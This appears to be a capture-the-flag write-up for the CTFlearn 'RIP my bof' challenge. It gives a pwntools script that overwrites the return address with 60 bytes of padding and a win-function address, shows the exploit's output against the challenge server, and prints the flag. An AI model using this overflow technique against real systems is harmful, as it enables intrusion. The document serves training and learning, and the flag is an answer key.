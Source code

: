 # RIP my bof
```python
from pwn import *; 

# Getting flag address
payload = b"A" * 60 + p32(0x08048586)
print(payload)
#print(payload)
#binary = process("./server")
binary = remote("thekidofarcrania.com", 4902)
binary.recvuntil(b"text:")
binary.sendline(payload)
binary.interactive()
```

so basically we have to overwrite the eip to reach the win functions. here we don't need the exploit as they have given the stack representation with eip in red
we need to overwrite it with the address of win function, we manually count the offset and it is 60. we then run the exploit
```bash
python x.py
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86\x85\x04\x08'
[+] Opening connection to thekidofarcrania.com on port 4902: Done
[*] Switching to interactive mode
 
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xff9b7340 | 41 41 41 41 41 41 41 41 |
0xff9b7348 | 41 41 41 41 41 41 41 41 |
0xff9b7350 | 41 41 41 41 41 41 41 41 |
0xff9b7358 | 41 41 41 41 41 41 41 41 |
0xff9b7360 | 41 41 41 41 41 41 41 41 |
0xff9b7368 | 41 41 41 41 41 41 41 41 |
0xff9b7370 | 41 41 41 41 41 41 41 41 |
0xff9b7378 | \x1b[0;37;1m41 41 41 41 86 85 04 08 |
Return address: 0x08048586

CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to thekidofarcrania.com port 4902
```
find the address of win function using info functions in gdb and run the above exploit

**FLAG - `CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}`**

